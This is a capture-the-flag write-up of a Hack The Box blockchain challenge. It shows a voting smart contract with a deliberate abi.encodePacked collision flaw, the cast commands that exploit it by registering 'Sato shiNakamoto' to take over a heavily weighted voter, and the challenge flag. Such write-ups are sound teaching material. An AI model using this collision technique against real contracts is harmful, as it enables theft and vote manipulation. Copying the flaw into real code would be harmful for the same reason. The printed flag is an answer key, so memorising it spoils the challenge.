> Difficulty : easy

> [ Source files ](https://github.com/hackthebox/business-ctf-2024/tree/main/blockchain/NotADemocraticElection%20%5BEasy%5D)

>In the post-apocalyptic wasteland, the remnants of human and machine factions vie for control over the last vestiges of civilization. The Automata Liberation Front (ALF) and the Cyborgs Independence Movement (CIM) are the two primary parties seeking to establish dominance. In this harsh and desolate world, democracy has taken a backseat, and power is conveyed by wealth. Will you be able to bring back some Democracy in this hopeless land?

# Introduction

We have to make a political party "CIM" win by raising its votes above 1000 * 10^18 votes (we can notice that 10^18 wei = 1ether).

# Recon

## Code reading

NotADemocraticElection.sol

```solidity
pragma solidity 0.8.25;

contract NotADemocraticElection {
    // ****************************************************
    // ******* NOTE: THIS NOT A DEMOCRATIC ELECTION *******
    // ****************************************************

    uint256 constant TARGET_VOTES = 1000e18;

    struct Party {
        string  fullname;
        uint256 totalvotes;
    }
    struct Voter {
        uint256 weight;
        address addr;
    }

    mapping(bytes3 _id => Party) public parties;
    mapping(bytes _sig => Voter) public voters;
    mapping(string _name => mapping(string _surname => address _addr)) public uniqueVoters;
    bytes3 public winner;

    event Voted(
        address _voter,
        bytes3  _party
    );
    event VoterDeposited(
        address _voter,
        uint256 _weight
    );
    event ElectionWinner(
        bytes3 _party
    );

    constructor(
       bytes3 _partyAsymbol , string memory _partyAfullname,
       bytes3 _partyBsymbol , string memory _partyBfullname
    ) {
        parties[_partyAsymbol].fullname = _partyAfullname;
        parties[_partyBsymbol].fullname = _partyBfullname;
    }

    function getVotesCount(bytes3 _party) public view returns (uint256) {
        return parties[_party].totalvotes;
    }
    
    function getVoterSig(string memory _name, string memory _surname) public pure returns (bytes memory) {
        return abi.encodePacked(_name, _surname);
    }

    function checkWinner(bytes3 _party) public {
        if (parties[_party].totalvotes >= TARGET_VOTES) {
            winner = _party; 
            emit ElectionWinner(_party);
        }
    }

    function depositVoteCollateral(string memory _name, string memory _surname) external payable {
        require(uniqueVoters[_name][_surname] == address(0), "Already deposited");

        bytes memory voterSig = getVoterSig(_name, _surname);
        voters[voterSig].weight += msg.value;
        uniqueVoters[_name][_surname] = msg.sender;

        emit VoterDeposited(msg.sender, msg.value);
    }

    function vote(
        bytes3 _party,
        string memory _name,
        string memory _surname
    ) public {
        require(uniqueVoters[_name][_surname] == msg.sender, "You cannot vote on behalf of others.");

        bytes memory voterSig = getVoterSig(_name, _surname);
        uint256 voterWeight = voters[voterSig].weight == 0 ? 1 : voters[voterSig].weight;
        parties[_party].totalvotes += 1 * voterWeight;
        
        emit Voted(msg.sender, _party);
        checkWinner(_party);
    }
}
```

- You can register to vote by submitting your name and surname, and if you transfer ether your vote will carry more weight (I'm getting a kick out of this representation of corruption). A vote count 10 times if it's weight is 10.
- When the contract is initialized, there's a member who's already registered with 100 ether = 100 * 10^18 (they can whippin everything by casting just 10 votes)
- His name is Satoshi Nakamoto
- Of course, you can't vote for someone else.
- There's a verification process based on the address that REGISTERED the person and the address that CARRIED out the vote.
- If the address is verified, the code will take the voter's first and last name signature by doing: abiEncodePacked(first name, last name)
- This function is vulnerable because if I register a person called "Sato shiNakamoto", his signature will be the same as that of "Satoshi Nakamoto" (everything is concatenated).
- Documentation mentioning [flaw](the https://docs.soliditylang.org/en/latest/abi-spec.html).
- Then all I have to do is vote with the fraudulent voter I've just created.


# Resolution

Steps to resolve: 

- Start the instance and retrieve the addresses
- Make a call to depositVoteCollatoral with the following parameters: "Sato" "shiNakamoto" (could have been "Sat" "oshiNakamoto" etc)
- Vote 10 times
- Claim the flag

In commands it looks like this: 

`cast send $TARGET -r $RPC_URL --from $ATTACKER --private-key $PRIVATE_KEY "depositVoteCollateral(string,string)" Sato shiNakamoto`

- We vote for our favorite party 10 times: `cast send $TARGET --private-key $PRIVATE_KEY -r $RPC_URL "vote(bytes3,string,string)" 0x43494d Sato shiNakamoto` (execute the command 1 time like a clueless man, we're not scripting here)

- You can check the number of votes with `cast call $TARGET -r $RPC_URL "getVotesCount(bytes3)" 0x43494d`. Where "0x43494d" is "CIM" in hex.

`HTB{h4sh_c0ll1s10n_t0_br1ng_b4ck_d3m0cr4cy}`
